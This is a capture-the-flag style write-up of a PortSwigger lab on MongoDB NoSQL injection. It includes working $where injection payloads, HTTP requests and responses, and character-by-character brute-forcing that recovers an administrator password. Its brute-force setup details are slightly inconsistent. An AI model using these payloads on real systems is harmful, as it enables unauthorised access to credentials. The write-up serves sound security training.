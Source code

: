 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d65cd1cd-7ed3-4cc3-b632-9aeb22fada48)

## Overview :

#### Exploiting syntax injection to extract data

In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database. 

#### Exfiltrating data in MongoDB

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
https://insecure-website.com/user/lookup?username=admin

This results in the following NoSQL query of the users collection:
```json
{"$where":"this.username == 'admin'"}
```

 As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```json
admin' && this.password[0] == 'a' || 'a'=='b
```

This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```json
admin' && this.password.match(/\d/) || 'a'=='b
```

## Solution :

Login as wiener. 

The following is the request & response sent .

**Request -**

```http
GET /user/lookup?user=wiener'+' HTTP/1.1
Host: 0a5a000604a69386817f4d0c00d50033.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5a000604a69386817f4d0c00d50033.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=IxSUIRgjxiu4z9R8PqzaavxdpaT460zx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

**Response -**

```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:10:55 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

The response contains the username , email & also the role of that user.

Inserting a `'` in the request ie (`user=wiener'`)causes an error in response .
```json
{
  "message": "There was an error getting user details"
}
```

The backend query might look something like this - `this.user == 'wiener'`

> This input likely results in an error because the application is attempting to execute a NoSQL query and the single quote (') is prematurely terminating the query, causing a syntax error - (`user='wiener''`).



But upon sending  `wiener'%2b'` (URL encoded form of `wiener'+'`) returns the details of wiener as usual.
```json
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:13:42 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```
> The plus sign (+) is acting as a **concatenation** or a way to continue the query. So, the resulting query might look like user=wiener' + '', and the plus sign helps to combine the intended query with the rest of the query, making it syntactically correct and allowing the query to proceed.

By this we can understand that the injected nosql query is being evaluated at the backend.

### Injecting boolean conditions -

**False condition:**

Inject `?user=wiener' && '1'=='2` , this triggers the following error in response.
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:53:40 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 38
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "message": "Could not find user"
}
```

**True condition:**

Inject `?user=wiener' && '1'=='1` , this results ina successful response .
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:57:20 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

### Finding the length of password :

To find the length of the password , we can use the following query
```sql
?user=administrator' && this.password.length < 30 || 'a'=='b
```

> We can stop at *<30* but since the query has a *'* at the end, we provide the *OR* query ie(** || 'a'=='a**).
> Note that we don't end the equal statement with a `'` because there is a trailing `'` at the end of the query getting added automatically at the end.

So the request looks like ,

```http
GET /user/lookup?user=administrator'%20%26%26%20this.password.length%20%3c%2030%20%7c%7c%20'a'%3d%3d'b HTTP/1.1
Host: 0a900010049b475283fbcdf900820099.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a900010049b475283fbcdf900820099.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=oWJad6obyaXSGiOE2hIcpAZ3ZXwcrhGS
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

The response shows the email of admin. It means the query is executed successfully & confirming that **the password length is less than 30.**
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 06:02:34 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 96
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

When we provide `this.password.length < 8`, the query fails & we get a failed response (*"message": "Could not find user"*).

So **the length of admin's password is 8**.

### Finding admin's password -

Now we ned to bruteforce each position from **0-7** by bruteforcing it with **a-z** to find the password.

Modify the nosql query payload as follows.

```nosql
user=administrator'%20%26%26%20this.password.match("^.{0}a.*$")%00 
```

Send the request to Intruder tab, Add the `this.password[**$0$**]` as payload 1 and `this.password[$0$]='**$a$**` as paylaod 2.

Payload 1 - Numbers from 1-10
Payload 2 - Characters from a-z

Click on start attack.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3f359128-701e-4712-a572-63034bbb6da1)

Now we have the admin's password - `oiwpuaam`

Login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b7dee7d-f2c9-4e1b-98d8-ca8cff9e85d5)

